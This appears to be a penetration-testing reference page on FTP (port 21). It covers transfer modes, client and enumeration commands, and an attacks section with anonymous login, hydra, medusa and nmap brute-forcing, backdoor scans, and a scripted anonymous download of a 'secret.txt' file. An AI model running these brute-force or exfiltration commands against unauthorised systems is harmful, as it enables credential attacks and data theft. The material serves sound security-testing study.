 # 21 - FTP

## Usage

FTP operates in **two modes for data transfer**:&#x20;

* In active mode, the client opens a port and listens while the server connects back to the client to transfer data.&#x20;
* In passive mode, the server opens a port and the client initiates the connection, which helps navigate firewalls or NAT restrictions more easily.

FTP also supports **two data transfer types**:

* Binary mode transfers files byte-for-byte, preserving exact file contents, which is essential for non-text files like images or executables.
* ASCII mode converts line endings and text formatting to match the target system, suitable for plain text files but potentially corrupting binary data.

{% tabs %}
{% tab title="Connect" %}
```bash
# Connect to FTP server
ftp <target>

# No auto login (useful for scripts)
ftp -n <targetp> 

# Verbose mode         
ftp -v <target>          

# Log in as a specific user
ftp <user>@<target>
```
{% endtab %}

{% tab title="Banner Grabbing" %}
```bash
telnet <target> 21
nc <target> 21
```
{% endtab %}

{% tab title="Basic Commands" %}
```bash
# List all (including hidden) files
ls -a
dir -a                   

# Change directory
cd <directory>              

# Change local directory
lcd <local_directory>                      

# Delete file
delete <file>               

# Create directory
mkdir <directory>           

# Remove directory
rmdir <directory>           

# Show remote current directory
pwd                         

# Disconnect
bye / quit / exit           
```
{% endtab %}

{% tab title="Enumeration" %}
```bash
# Get OS type
quote SYST

# Check for passive mode
quote PASV                  

# List server supported commands
quote HELP                  

# Server status
quote STAT                  

# List server features
quote FEAT                  

# Site-specific commands
quote SITE HELP             
```
{% endtab %}

{% tab title="Transfer" %}
```bash
# Download file
get <file>                  

# Download multiple files
mget <files>                

# Upload file
put <file>                  

# Upload multiple files
mput <files> 

# Download an FTP directory
wget -r ftp://username:password@<target-ip></directory/>
```
{% endtab %}
{% endtabs %}

## Attacks

{% tabs %}
{% tab title="Anon" %}
Sometimes are configured to accept passwordless anonymous and/or default logins:

```bash
ftp ftp@<server-ip>
ftp anonymous@<server-ip>
```
{% endtab %}

{% tab title="BFA" %}
```bash
# Using hydra
hydra -l <user> -P <passlist> ftp://<target> 

# Using medusa
medusa -h <target> -u <user> -P <passlist> -M ftp

# Using nmap 
nmap -p 21 --script ftp-brute <target>
```
{% endtab %}

{% tab title="Vulnerability Recon" %}
{% code overflow="wrap" %}
```bash
nmap -p 21 --script ftp-anon,ftp-bounce,ftp-vsftpd-backdoor,ftp-proftpd-backdoor <target>
```
{% endcode %}
{% endtab %}

{% tab title="File Exfil" %}
```bash
# File exfiltration / upload with command-line FTP
echo "open <target>" > script.txt
echo "user anonymous anonymous" >> script.txt
echo "binary" >> script.txt
echo "get secret.txt" >> script.txt
echo "bye" >> script.txt
ftp -n -s:script.txt
```
{% endtab %}
{% endtabs %}
